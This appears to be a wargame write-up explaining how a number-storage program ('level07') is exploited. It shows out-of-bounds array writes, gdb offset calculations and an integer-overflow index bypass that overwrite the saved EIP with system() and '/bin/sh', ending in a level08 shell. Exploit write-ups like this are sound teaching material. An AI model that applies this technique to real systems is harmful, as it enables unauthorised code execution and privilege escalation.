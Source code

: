 
# Level07 - Exploiting an Out-of-Bounds Array Access Vulnerability

## Step 1: Running the Program

First, let's run the program to observe its behavior:

```bash
$ ./level07
----------------------------------------------------
Welcome to wil's crappy number storage service!   
----------------------------------------------------
Commands:                                          
    store - store a number into the data storage    
    read  - read a number from the data storage     
    quit  - exit the program                        
----------------------------------------------------
wil has reserved some storage :>                 
----------------------------------------------------
Input command: store
Number: 42
Index: 0
*** ERROR! ***
This index is reserved for wil!
*** ERROR! ***
Failed to do store command
Input command: read
Index: 0
Number at data[0] is 0
Completed read command successfully
```

The program stores numbers in an array and allows reading from the array. However, there is no proper bounds checking on the indices, allowing us to access memory outside the array.

## Step 2: Exploiting Out-of-Bounds Access

By specifying indices beyond the array bounds, we can access arbitrary memory locations:

```bash
Input command: store
Number: 42
Index: 160
Completed store command successfully
Input command: read
Index: 160
Number at data[160] is 42
Completed read command successfully
```

### Negative Indices

Negative indices access memory locations before the start of the array:

```bash
Input command: store
Number: 42
Index: -2
Completed store command successfully
Input command: read
Index: -2
Number at data[4294967294] is 42
Completed read command successfully
```

### Finding the Array Address in Memory

To exploit this, we need the base address of the array in memory. Set a breakpoint at the start of the `read_number` function:

```bash
(gdb) b read_number
(gdb) r
```

Check the address of the array:

```bash
(gdb) x/x $ebp+0x8
0xffffd440: 0xffffd464
```

The array starts at `0xffffd464`. To find the index in the array where this address is stored:

```bash
0xffffd440 - 0xffffd464 = -36
-36 / 4 = -9
```

This calculation shows the array index `-9` holds the base address.

## Step 3: Finding EIP in the Array

Next, find the index of the EIP in the array:

1. Set a breakpoint in the main function and get EIP:

   ```bash
   (gdb) b *main+520
   (gdb) c
   ```

2. Check the saved EIP address:

   ```bash
   (gdb) i f
   eip at 0xffffd62c
   ```

3. Calculate the index of EIP in the array:

   ```bash
   0xffffd62c - 0xffffd464 = 456
   456 / 4 = 114
   ```

EIP is stored at index `114`, but this index is protected (index % 3 == 0). To bypass, use integer overflow:

```bash
1073741938 % 3 = 1
```

## Step 4: Overwriting EIP with `system()`

Overwrite EIP with the address of `system()`:

```bash
(gdb) info function system
0xf7e6aed0  system
```

Use index `1073741938` to write to index `114`.

## Step 5: Setting the Argument for `system()`

Set the argument `/bin/sh` at index `116`:

```bash
(gdb) find 0xf7e2c000,0xf7fcc000,"/bin/sh"
0xf7f897ec
```

In decimal, the address is `4160264172`.

## Step 6: Executing the Exploit

Perform the exploit:

```bash
$ ./level07
Input command: store
Number: 4159090384
Index: 1073741938
Completed store command successfully
Input command: store
Number: 4160264172
Index: 116
Completed store command successfully
Input command: quit
$ whoami
level08
```

## Summary

- The program has an out-of-bounds vulnerability allowing access beyond the array limits.
- By calculating the correct indices, we can read and overwrite EIP with a `system()` address.
- Set the argument for `system()` as `/bin/sh`, achieving a shell with escalated privileges.

This approach highlights the impact of insufficient bounds checking in memory access.
